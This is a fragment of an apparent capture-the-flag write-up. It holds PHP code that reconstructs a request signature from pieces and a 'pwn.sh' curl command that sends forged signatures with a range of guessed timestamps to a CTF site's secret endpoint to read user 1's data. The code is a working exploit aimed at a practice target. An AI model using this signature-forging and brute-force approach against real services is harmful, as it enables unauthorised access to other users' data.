 ```php
{
	$begin = substr($start, 0, -1);

	foreach($array as $x) {
		if($x === $start)
			continue;

		$check = substr($x, -strlen($begin));
		if($check === $begin)
			return false;
	}

	return true;
}

for($i = 0; $i < sizeof($c); $i++) {
	if(isStart($c, $c[$i])) {
		$f = (fuse($c[$i], $c));

		if($f)
			exit($f);
	}
}
```

### pwn.sh
```sh
curl -Z "https://ugly-website.web.jctf.pro/api/secret?user_id=1&sgn=$(php ./reconstruct.php)&timestamp="{1576993337..1576993345}
```
